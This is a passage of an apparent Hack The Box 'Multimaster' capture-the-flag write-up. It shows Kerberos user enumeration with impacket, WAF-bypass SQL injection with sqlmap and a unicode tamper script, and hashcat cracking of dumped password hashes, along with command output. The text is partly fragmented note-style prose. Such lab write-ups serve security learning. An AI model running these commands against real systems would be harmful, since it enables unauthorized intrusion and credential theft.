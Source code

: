 next attempted to enumerate the valid users who have active accounts on this machine through Kerberos.

```text
zweilos@kalimaa:~/htb/multimaster$ python3 /home/zweilos/impacket/examples/GetNPUsers.py -outputfile multimaster.hash -format hashcat -usersfile /home/zweilos/htb/multimaster/users -no-pass -dc-ip 10.10.10.179 MEGACORP/egre55
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[-] User sbauer doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User okent doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ckane doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User kpage doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User james doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User cyork doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User rmartin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User zac doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jorden doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User alyx doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ilee doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User nbourne doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User zpowers doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User aldom doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

used [wafw00f](https://github.com/enablesecurity/wafw00f) to detect if there was a WAF, but none was detected [https://trustfoundry.net/bypassing-wafs-with-json-unicode-escape-sequences/](https://trustfoundry.net/bypassing-wafs-with-json-unicode-escape-sequences/) [https://github.com/0xInfection/Awesome-WAF\#testing-methodology](https://github.com/0xInfection/Awesome-WAF#testing-methodology) [https://github.com/sqlmapproject/sqlmap/blob/master/tamper/charunicodeescape.py](https://github.com/sqlmapproject/sqlmap/blob/master/tamper/charunicodeescape.py)

mine [https://stackoverflow.com/questions/40628603/sqlmap-post-json-data-as-body](https://stackoverflow.com/questions/40628603/sqlmap-post-json-data-as-body) [https://www.yg.ht/blog/blog/archives/361/getting-sqlmap-to-detect-injection-points-through-json](https://www.yg.ht/blog/blog/archives/361/getting-sqlmap-to-detect-injection-points-through-json) sqlmap -r burppost —tamper charunicodetamper.py —dbs -delay 5 sqlmap -r burppost —tamper charunicodetamper.py —D Hub\_DB -tables -delay 5 sqlmap will automatically detect that there is JSON data in your POST and will ask if you would like for it to process it. sqlmap called hash sha384\_generic\_passwd [https://www.tunnelsup.com/hash-analyzer/](https://www.tunnelsup.com/hash-analyzer/) verified that the hash was sha2-384 There were duplicates of each hash, only four unique;

hashcat -m 10800 -a 0 -o hash.cracked hash /usr/share/wordlists/rockyou.txt Possible algorithms: Keccak-384

```text
zweilos@kalimaa:~/htb/multimaster$hashcat -m 17900 -a 0 -o hash.cracked hash /usr/share/wordlists/rockyou.txt
snipped...

Session..........: hashcat
Status...........: Exhausted
Hash.Name........: Keccak-384
Hash.Target......: hash
Time.Started.....: Mon Jul 20 19:17:45 2020 (11 secs)
Time.Estimated...: Mon Jul 20 19:17:56 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1309.3 kH/s (1.74ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 3/4 (75.00%) Digests
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 3094/14344385 (0.02%)
Restore.Point....: 14344385/14344385 (100.00%)
```
